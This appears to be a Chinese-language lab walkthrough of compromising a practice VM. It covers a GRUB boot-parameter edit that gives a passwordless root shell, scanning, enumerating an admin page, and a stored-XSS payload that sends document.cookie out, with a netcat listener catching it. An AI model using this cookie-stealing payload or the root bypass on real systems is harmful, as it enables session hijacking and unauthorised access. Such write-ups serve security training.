 window7或者2019安装virtual box

------

## 🔹 操作步骤

### 1. 重启进入 GRUB 菜单

- 启动时按住 **Shift**（BIOS）或 **Esc**（UEFI），直到出现 GRUB 菜单。
- 如果机器直接进系统，可能需要在启动时一直狂按 `Shift`。

------

### 2. 编辑 GRUB 启动参数

- 在 GRUB 菜单上选中你要启动的内核行（一般是第一项），**不要回车**。
- 按 **e** 进入编辑模式。

------

### 3. 修改内核启动参数

找到这一行（大概是这样的）：

```
linux   /boot/vmlinuz-xxx root=/dev/sda1 ro quiet
```

把里面的 `ro quiet` 改成：

```
rw init=/bin/bash
```

意思是：以读写模式挂载根分区，并直接执行 bash。

------

### 4. 启动到单用户模式

按 **Ctrl + X** 或 **F10** 启动。
 系统会直接进入一个 **root shell**，不需要密码。

------

### 5. 修改网卡设置

```
vi /etc/network/interfaces
exec /sbin/init
```

### 6.成功扫描到ip地址

![image-20250828192157048](images/image-20250828192157048.png)

### 7.端口扫描

![image-20250828193226469](images/image-20250828193226469.png)

### 访问80端口，有注册和登录界面

```
无法注册，不知道账号和密码
```

![image-20250828193935436](images/image-20250828193935436.png)

```
查看源码，发现是disabled 的原因，删除disabled
```

![image-20250828194658368](images/image-20250828194658368.png)

#### 成功注册

![image-20250828194929325](images/image-20250828194929325.png)

#### 但是无法登录，账号没有被激活

![image-20250828195021232](images/image-20250828195021232.png)



### 尝试从其他地方入手，进行目录扫描或者爆破

#### 目录扫描：

![image-20250828194022007](images/image-20250828194022007.png)

```
/admin 没有权限
/robots.txt提示 /admin/admin.php
```

![image-20250828194148388](images/image-20250828194148388.png)

```
访问 http://192.168.126.132/admin/admin.php   似乎是别人的登录信息,并且有我们刚刚注册的信息
```

![image-20250828195314289](images/image-20250828195314289.png)

尝试激活，但是没有权限

![image-20250828195404709](images/image-20250828195404709.png)

```
这里尝试了一下爆破，发现不是弱口令
注册后信息可以在/admin/admin.php看到
可以尝试是不是存储型xss
尝试在注册界面注入
```

```
<script>document.write('<img src="images/1.php?cmd='+document.cookie+'" width=0 height=0 border=0 />');</script> 
```

![image-20250828201626230](images/image-20250828201626230.png)

后台收到cookie

```
nc -lvnp 5533
```

![image-20250829110853303](images/image-20250829110853303.png)



# ![image-20250829110831684](images/image-20250829110831684.png)



